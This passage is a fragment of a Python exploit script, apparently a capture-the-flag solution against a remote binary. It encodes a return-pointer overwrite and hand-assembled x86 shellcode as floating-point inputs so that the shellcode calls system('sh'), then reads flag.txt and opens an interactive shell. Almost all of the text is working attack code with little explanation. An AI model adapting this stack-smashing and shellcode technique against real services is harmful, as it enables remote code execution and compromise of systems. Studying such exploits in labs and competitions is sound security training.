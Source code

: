 ```python

        #gdb.attach(r)
        in_range = "-99"
        oo_range = quick_fmt(b"\xCC"*6, 0xff8)
        oo_range = "-1e+306"

        state = {"count": 0}

        retptr = float_fmt(float_unpack((myreturnop).to_bytes(4, 'little').rjust(8, b"\x90")))
        stage2 = float_fmt(float_unpack(stack_addr.to_bytes(4, 'little') + (myreturnop + 0x01000000).to_bytes(4, 'little')))
        print("retptr: " + retptr)

        addr_of_sh = stack_addr + 8 * 4
        addr_of_system = 0x0804BFF0

        send_arr_size(r, str(count))
        for i in range(4):
            send_item(r, oo_range, state)
        send_item(r, in_range, state)

        send_item(r, retptr, state)
        send_item(r, stage2, state)

        # "mov eax, addr_of_sh" "mov ebx, ignored"
        send_item(r, quick_fmt(uhex("b8") + addr_of_sh.to_bytes(4, 'little') + uhex("bb"), 0xffd), state)
        # "ignored" "push eax"
        send_item(r, quick_fmt(uhex("ffff" + "50" + "bb" + "ffff"), 0xffc), state)
        # "mov eax, addr_of_system" "mov ebx, ignored"
        send_item(r, quick_fmt(uhex("b8") + addr_of_system.to_bytes(4, 'little') + uhex("bb"), 0xffb), state)
        # "ignored" "call eax"
        send_item(r, quick_fmt(uhex("ffff" + "8b00" + "ffd0" ), 0xffa), state)
        send_item(r, quick_fmt(b"sh\x00", 0xff9), state)
        send_rest(r, oo_range, state)

        r.sendline("cat flag.txt")

        success, orig, after = parse_response(r)
        print("done parsing")
        if not success:
            r.close()
            continue

        for i, e in after.items():
            num = float(e)
            form = binascii.hexlify(float_pack(num))
            print("{:04}: {} ({})".format(int(i), form, num))

        r.interactive()
        break

    except Exception as e:
        print(e)
```
